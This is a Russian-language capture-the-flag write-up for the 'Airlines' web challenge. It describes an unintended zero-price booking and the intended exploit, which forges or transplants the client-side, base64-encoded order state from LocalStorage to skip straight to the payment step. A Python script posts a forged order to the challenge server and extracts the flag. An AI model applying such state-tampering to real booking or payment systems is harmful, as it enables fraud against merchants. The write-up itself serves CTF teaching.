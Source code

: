 # Airlines: Write-up

К сожалению, в задаче уязвимостей оказалось больше, чем я ожидал, вследствие чего у задачи появился путь решения до того простой, что даже как-то обидно. С него и начнём.

## Путь, которого не должно было быть

Одна маленькая беда — и задача за 150 баллов превращается в задачу за 25 баллов. Следите за руками:

1. Заходим на сайт.
2. Заказываем билет из Ханты-Мансийска в Ханты-Мансийск за 0 ₽.
3. ...
4. Платить не надо, флаг наш.

## Путь, задуманный автором

На самом деле, конечно, покупать билет за 0 ₽ — какая-то глупость, так не бывает.

Вся задачка придумалась как шутка на злобу дня: ни для кого не секрет, что некоторые настоящие авиакомпании любят повышать стоимость билетов, когда этими билетами кто-то интересуется, играя в невидимую руку рынка и создавая мнимый ажиотаж. Само по себе это явление абсолютно нормально и естественно. Другое дело, чтот порой повышенный интерес к билетам появляется от того, что какой-то неудачливый пассажир пытается купить себе билет, но сайт ломается, и пассажиру приходится начинать по новой, и ещё по новой, и ещё раз, да ещё раз... Таким неудачливым пассажиром, в частности, не один раз оказывался автор задания.

Как должно было быть на самом деле:

1. Заходим на сайт.
2. Заказываем билет откуда угодно в Ханты-Мансийск.
3. Выбираем любой рейс дешевле пяти тысяч рублей — именно такую сумму мы можем скинуть данным нам промокодом.
4. Проходим форму из шести шагов. Замечаем, что с каждым шагом билет дорожает. 
5. К шагу с оплатой любой билет стоит больше, чем пять тысяч.

Открываем веб-инспектор и, внимательно пронализировав вкладки Network, Application и Sources, понимаем, что форма, на самом деле, заполняется строго на клиенте до самого последнего шага, хранится у клиента в LocalStorage в закодированном виде, и передаётся на сервер в таком же виде лишь на седьмом шаге — то есть, после оплаты.

Посмотреть, что именно хранится в LocalStorage, можно, сказав в браузерной консоли `localStorage.state`. Это строка, закодированная в base64, закодированная по URL-схеме, и в ней действительно лежит сериализованная форма. Прочитаем её уже написанной и данной нам функцией:

![](writeup/state.png)

Получается, что можно пропустить почти все шаги, сэкономив число запросов к серверу и наши деньги. 

Можно добиться результатом исключительно с помощью браузера:

1. Честно заполнить форму, дойдя до экрана «Недостаточно средств».
2. Открыть новую вкладку в инкогнито-режиме или сбросить куки.
3. Перенести туда `state` из `localStorage`.
4. Перейти по адресу `/place-an-order?step=7`. 
5. Убедиться, что цена не выросла, а, значит, нам хватает на билет.
6. Купить билет и забрать флаг.

А можно программно:

```python3
import requests
from urllib.parse import quote
from base64 import b64encode
import re

state = {
    "class": "basic",
    "date": "2021-03-27",
    "date_of_birth": "1979-10-01",
    "email": "a@a",
    "first": "Антон",
    "from": "Сургут",
    "hamburger": "on",
    "last": "Решала",
    "number": "279",
    "passport": "1234567890",
    "patronymic": "Борисович",
    "phone": "7987654321",
    "to": "Ханты-Мансийск",
    "valid_thru": "2022-03-27",
    "promocode": "TOKEN",
}


def serialize(state):
    res = ';'.join(f"{k}:{v}" for k, v in state.items())
    res = quote(res)
    res = str(b64encode(res.encode('ascii')), 'ascii')
    return res


def solve():
    url = 'https://airlines.s.2021.ugractf.ru'
    url = 'http://localhost:31337'
    s = requests.session()
    s.post(url + '/place-an-order', data={
        'from': 'Сургут · SGC',
        'to': 'Ханты-Мансийск · HMA',
        'date': '2021-03-27'
    })
    ticket = s.post(url + '/eticket', data={
        'sealedOrderData': serialize(state)
    }).text
    print(re.findall(r"ugra_[a-z0-9_]+", ticket)[0])


solve()
```

Флаг: **ugra_booking_numbers_are_sequential_yet_ticket_prices_are_exponential_fc535d1df8b41229**
